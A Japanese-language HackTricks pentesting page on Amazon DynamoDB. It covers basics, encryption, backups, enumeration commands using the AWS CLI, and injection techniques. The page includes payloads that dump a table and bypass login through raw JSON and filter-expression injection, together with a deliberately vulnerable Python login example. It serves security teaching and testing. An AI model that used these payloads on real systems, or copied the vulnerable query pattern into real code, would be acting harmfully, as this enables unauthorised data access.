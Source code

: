 # AWS - DynamoDB Enum

{{#include ../../../banners/hacktricks-training.md}}

## DynamoDB

### 基本情報

Amazon DynamoDBは、AWSによって**完全に管理されたサーバーレスのキー・バリューNoSQLデータベース**として提供されており、サイズに関係なく高性能アプリケーションを支えるために特化されています。このサービスは、固有のセキュリティ対策、途切れのないバックアップ、複数のリージョンにわたる自動レプリケーション、統合されたインメモリキャッシング、便利なデータエクスポートユーティリティなど、堅牢な機能を保証します。

DynamoDBの文脈では、従来のデータベースを構築する代わりに、**テーブルが作成されます**。各テーブルは、**テーブルの主キー**の不可欠な要素として**パーティションキー**の指定を義務付けています。このパーティションキーは、本質的に**ハッシュ値**であり、アイテムの取得とデータのさまざまなホストへの分配の両方において重要な役割を果たします。この分配は、データベースのスケーラビリティと可用性を維持するために重要です。さらに、データの整理をさらに洗練させるために**ソートキー**を組み込むオプションもあります。

### 暗号化

デフォルトでは、DynamoDBは**Amazon DynamoDBに属する**KMSキーを使用しており、少なくともあなたのアカウントに属するAWS管理キーさえも使用していません。

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### バックアップとS3へのエクスポート

**テーブルバックアップ**の生成を**スケジュール**することや、**オンデマンド**で作成することが可能です。さらに、**テーブルのポイントインタイムリカバリ（PITR）を有効にする**ことも可能です。ポイントインタイムリカバリは、DynamoDBデータの**35日間**の継続的な**バックアップ**を提供し、偶発的な書き込みや削除操作から保護するのに役立ちます。

**テーブルのデータをS3にエクスポート**することも可能ですが、テーブルには**PITRが有効**である必要があります。

### GUI

[https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)など、役立つ可能性のある[ダイナモDBローカル](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/)、[dynalite](https://github.com/mhart/dynalite)、[localstack](https://github.com/localstack/localstack)などのローカルDynamoサービス用のGUIがあります。

### 列挙
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### 認証されていないアクセス

{{#ref}}
../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md
{{#endref}}

### 権限昇格

{{#ref}}
../aws-privilege-escalation/aws-dynamodb-privesc.md
{{#endref}}

### ポストエクスプロイト

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### 永続性

{{#ref}}
../aws-persistence/aws-dynamodb-persistence.md
{{#endref}}

## DynamoDB インジェクション

### SQL インジェクション

DynamoDB データに **SQL 構文**でアクセスする方法があるため、典型的な **SQL インジェクションも可能**です。

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html
{{#endref}}

### NoSQL インジェクション

DynamoDB では、データを取得するために異なる **条件**を使用できます。一般的な NoSQL インジェクションのように、データを取得するために **複数の条件を連鎖させる**ことができれば、隠されたデータを取得したり（またはテーブル全体をダンプしたり）することができます。\
DynamoDB がサポートする条件はここで確認できます: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

データが **`query`** または **`scan`** を介してアクセスされる場合、**異なる条件**がサポートされていることに注意してください。

> [!NOTE]
> 実際には、**Query** アクションは、**主キー**で **条件 "EQ" (等しい)** を指定する必要があり、これにより **NoSQL インジェクションに対してはるかに脆弱性が低く**なり（また、操作が非常に制限されることになります）。

比較を **変更**したり、新しいものを追加したりできれば、より多くのデータを取得できる可能性があります。
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html
{{#endref}}

### 生のJsonインジェクション

> [!CAUTION]
> **この脆弱性は、現在非推奨のdynamodb Scan Filterに基づいています！**

**DynamoDB**は、DB内のデータを**検索**するために**Json**オブジェクトを受け入れます。検索に送信されるjsonオブジェクトに書き込むことができる場合、DBのダンプを作成し、すべての内容を取得することができます。

例えば、次のようなリクエストに注入することができます:
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
攻撃者は次のようなものを注入することができます：

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

ID 1000を検索するために「EQ」条件を修正し、その後、すべてのデータを取得するためにId文字列が0より大きいものを探します。

別の**ログインを使用した脆弱な例**は次のようになります：
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
これに対して脆弱である可能性があります:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

一部のSDKでは、次のように実行されるフィルタリングを示す文字列を使用することができます:
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
DynamoDBでアイテムをスキャンする際に**フィルター式**で属性**値**を**置き換える**ために検索する場合、トークンは**`:`**文字で**始まる**必要があります。そのため、これらのトークンは**実行時に実際の属性値に置き換えられます**。

したがって、前述のようなログインは次のようなものでバイパスできます:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{{#include ../../../banners/hacktricks-training.md}}
